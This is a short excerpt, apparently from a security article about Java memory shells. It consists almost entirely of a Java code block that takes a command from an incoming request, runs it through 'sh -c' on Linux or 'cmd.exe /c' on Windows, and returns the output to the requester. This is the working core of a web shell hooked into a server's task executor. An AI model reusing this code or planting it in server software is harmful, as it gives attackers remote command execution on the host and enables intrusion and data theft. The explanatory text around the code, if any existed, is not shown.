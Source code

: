 ```java
            String cmd = getRequest();
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    getResponse(output.getBytes());
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
}
```

![](img/11.png)

